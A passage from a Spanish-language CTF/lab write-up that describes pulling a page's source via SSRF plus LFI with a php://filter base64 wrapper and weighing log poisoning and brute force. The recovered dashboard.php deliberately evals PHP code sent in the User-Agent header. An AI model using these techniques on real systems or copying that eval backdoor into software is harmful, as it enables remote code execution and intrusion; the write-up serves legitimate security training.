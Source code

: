Vemos qué existe el **usuario ram**, quizá le podamos aplicar fuerza bruta, pero dejémoslo para más adelante.

Algo importante que podemos ver, es que se pudo identificar el archivo **error.log** y **access.log**, lo que nos podría indicar que la página es vulnerable a **Log Poisoning**.

Aunque ahí mismo nos dice que no hay contenido por ver, por lo que una opción bastante viable, es buscar la forma de poder ver estos dos archivos.

<br>

<h3 id="Dashboard">Obteniendo y Analizando Código Fuente de dashboard.php con SSRF + LFI + PHP Wrapper</h3>

Otra cosa que podemos hacer, ya que funcionó el uso de **PHP Wrappers**, es tratar de obtener el código de la página actual, ósea, el código fuente completo de la página **dashboard.php**.

Esto lo podemos hacer con el **PHP Wrapper** `php://filter/convert.base64-encode/resource=` para obtener todo el código en **base64**:

<p align="center">
<img src="/assets/images/THL-writeup-resident/Captura14.png">
</p>

Lo tenemos, ya solo falta decodificarlo:
```bash
echo -n 'base64_copiada' | base64 -d
...
<?php
session_start();

// Verificar si el usuario ha iniciado sesión
if (!isset($_SESSION['username'])) {
    header("Location: index.php");
    exit();
}

// Inicializar variables
$message = "";
$response = "";

// Evaluar el User-Agent y ejecutar código PHP
if (isset($_SERVER['HTTP_USER_AGENT'])) {
    // Se obtiene el User-Agent
    $user_agent = $_SERVER['HTTP_USER_AGENT'];

    // Ejecutar el código PHP contenido en el User-Agent
    if (preg_match('/<\?php(.*)\?>/s', $user_agent, $matches)) {
        // Extraer el código y evaluarlo
        eval($matches[1]);
    }
}

// Procesar la URL proporcionada en la consulta
if (isset($_GET['url'])) {
    // Obtener la URL de la consulta
    $url = $_GET['url'];
```